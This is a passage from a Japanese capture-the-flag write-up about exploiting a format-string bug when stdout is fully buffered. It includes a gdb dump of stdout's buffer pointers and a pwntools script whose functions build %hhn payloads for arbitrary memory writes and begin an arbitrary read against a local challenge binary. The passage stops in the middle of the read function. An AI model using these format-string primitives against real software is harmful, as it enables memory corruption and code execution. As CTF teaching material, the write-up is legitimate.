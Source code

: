 以下がその後1文字入れた状態です。flushが動作したあと、ポインタが`_IO_write_base`に戻り、0x1bc42a0に1文字入って、`_IO_write_ptr`が1つ進んでいます。

```
gef➤  p *stdout
$2 = {
  _flags = 0xfbad2884,
  _IO_read_ptr = 0x1bc32a0 "\n", ' ' <repeats 116 times>, "0", ' ' <repeats 154 times>,
  _IO_read_end = 0x1bc32a0 "\n", ' ' <repeats 116 times>, "0", ' ' <repeats 154 times>,
  _IO_read_base = 0x1bc32a0 "\n", ' ' <repeats 116 times>, "0", ' ' <repeats 154 times>,
  _IO_write_base = 0x1bc32a0 "\n", ' ' <repeats 116 times>, "0", ' ' <repeats 154 times>,
  _IO_write_ptr = 0x1bc32a1 ' ' <repeats 116 times>, "0", ' ' <repeats 154 times>,
  _IO_write_end = 0x1bc42a0 "",
  _IO_buf_base = 0x1bc32a0 "\n", ' ' <repeats 116 times>, "0", ' ' <repeats 154 times>,
  _IO_buf_end = 0x1bc42a0 "",
```

ということで0x1001文字出力させることで、バッファを吐かせることができます。

以上がFully Bufferedな環境での方針になります。

# 実装
fsbペイロードの最後に`payload += f"%{0x1000-total+1}c.encode()`を加えることで、ちょうど0x1001文字出るように調整します。一度だけなら計算せずに適当に出せばよいですが、何度かループしそうなのできれいに出力してほしいためです。

また出力を受け取るときは`recv(0x1000)`としていましたが、サーバに接続したときなどでうまく受信できないときがありましたので`recvrepeat`を使って対策しています。ローカルだと問題ないと思います。

aarも合わせて実装します。1回目にループを作成するため、0x1001バイトを先に送るので、以降は0x1000バイトを送ると出力されます。(すべて0x1001バイトでも出力されますが、毎回ずれるバイトが増えるので面倒です。)

得られる出力は１つ多く出るので、最初の文字を捨てて受け取ります。

```python
from pwn import *
context.log_level = 'debug'
r = remote('127.0.0.1', 31337)
elf = ELF("./chal")

TIME = 0.8
def aaw(where, what, leng=6):
    total = 0
    payload = b''
    offset = 0
    for i in range(leng):
        c = ((what >> (i * 8)) - offset) % 0x100
        if c == 0:
            c = 0x100
        payload += f"%{c}c%{i+16}$hhn".encode()
        offset += c
        total += c
    payload += f"%{0x1000-total+1}c".encode()
    payload = payload.ljust(0x50, b'\x00')
    for i in range(leng):
        payload += p64(where + i)
    payload = payload.ljust(0x100, b'\x00')
    r.send(payload)
    ret = r.recvrepeat(TIME)
    assert(len(ret) == 0x1000)

def aar(where):
    addrlen = len(p64(where).strip(b'\x00'))
    payload = b''
    # mark --> 2
    # leak --> 6
    # padd --> 4
    payload += f"%8$s||%{0x1000-(2+6+4+addrlen)}c".encode()
```